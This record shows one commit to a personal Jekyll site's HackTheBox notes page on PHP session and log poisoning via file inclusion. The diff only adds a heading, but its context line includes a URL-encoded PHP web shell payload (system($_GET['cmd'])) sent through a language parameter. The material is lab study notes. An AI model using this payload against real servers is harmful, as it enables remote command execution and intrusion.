

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update Log_Poisoning.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/Log_Poisoning.md
@@ -4,7 +4,7 @@
 
 # PHP Session Poisoning
 
-##
+## Log Session Poisoning URL
 
 ```
 http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
````
